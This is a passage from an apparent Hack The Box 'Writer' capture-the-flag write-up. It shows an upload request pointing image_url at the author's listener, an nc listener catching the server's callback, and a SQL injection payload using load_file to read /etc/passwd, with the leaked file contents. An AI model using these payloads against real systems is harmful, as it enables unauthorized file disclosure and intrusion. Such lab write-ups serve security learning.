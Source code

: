 Writeup  
-----------------------------12417370376638841362770592069  
Content-Disposition\: form-data\; name="image"\; filename=""  
Content-Type\: application/octet-stream  
  
  
-----------------------------12417370376638841362770592069  
Content-Disposition\: form-data\; name="image_url"  
  
http\://10.10.15.80/image.jpg  
-----------------------------12417370376638841362770592069  
Content-Disposition\: form-data\; name="content"Thanks for reading!  
-----------------------------12417370376638841362770592069--
{% endhighlight %}

Note the “image_url” parameter highlighted in red  

Response

{% highlight bash %}
┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]  
└──╼ $sudo nc -lvnp 80  
listening on [any] 80 ...  
connect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 38018GET /image.jpg HTTP/1.1  
Accept-Encoding\: identityHost\: 10.10.15.80  
User-Agent\: Python-urllib/3.8  
Connection\: close
{% endhighlight %}

Judging from the user-agent, it was found that the server is running python. After failing to obtain code executions despite trying many different upload attacks, it follows that the source code of the upload feature must be leaked to determine how it works.

### Leveraging SQLi to Read Local Files

This is possible via the load_file SQL function. Going back to the login page, this function can be used in conjunction with a union select statement to leak files\:

Payload

{% highlight bash %}
uname='union select 1,load_file('/etc/passwd'),3,4,5,6-- -&password=a
{% endhighlight %}

Response

{% highlight bash %}
Welcome root\:x\:0\:0\:root\:/root\:/bin/bash  
daemon\:x\:1\:1\:daemon\:/usr/sbin\:/usr/sbin/nologin  
bin\:x\:2\:2\:bin\:/bin\:/usr/sbin/nologin  
sys\:x\:3\:3\:sys\:/dev\:/usr/sbin/nologin  
sync\:x\:4\:65534\:sync\:/bin\:/bin/sync  
games\:x\:5\:60\:games\:/usr/games\:/usr/sbin/nologin  
man\:x\:6\:12\:man\:/var/cache/man\:/usr/sbin/nologin  
lp\:x\:7\:7\:lp\:/var/spool/lpd\:/usr/sbin/nologin  
mail\:x\:8\:8\:mail\:/var/mail\:/usr/sbin/nologin  
news\:x\:9\:9\:news\:/var/spool/news\:/usr/sbin/nologin  
uucp\:x\:10\:10\:uucp\:/var/spool/uucp\:/usr/sbin/nologin  
proxy\:x\:13\:13\:proxy\:/bin\:/usr/sbin/nologin  
www-data\:x\:33\:33\:www-data\:/var/www\:/usr/sbin/nologin  
backup\:x\:34\:34\:backup\:/var/backups\:/usr/sbin/nologin  
list\:x\:38\:38\:Mailing List Manager\:/var/list\:/usr/sbin/nologin  
irc\:x\:39\:39\:ircd\:/var/run/ircd\:/usr/sbin/nologin  
gnats\:x\:41\:41\:Gnats Bug-Reporting System (admin)\:/var/lib/gnats\:/usr/sbin/nologin  
nobody\:x\:65534\:65534\:nobody\:/nonexistent\:/usr/sbin/nologin  
systemd-network\:x\:100\:102\:systemd Network Management,,,\:/run/systemd\:/usr/sbin/nologin  
systemd-resolve\:x\:101\:103\:systemd Resolver,,,\:/run/systemd\:/usr/sbin/nologin  
systemd-timesync\:x\:102\:104\:systemd Time Synchronization,,,\:/run/systemd\:/usr/sbin/nologin  
messagebus\:x\:103\:106\:\:/nonexistent\:/usr/sbin/nologin  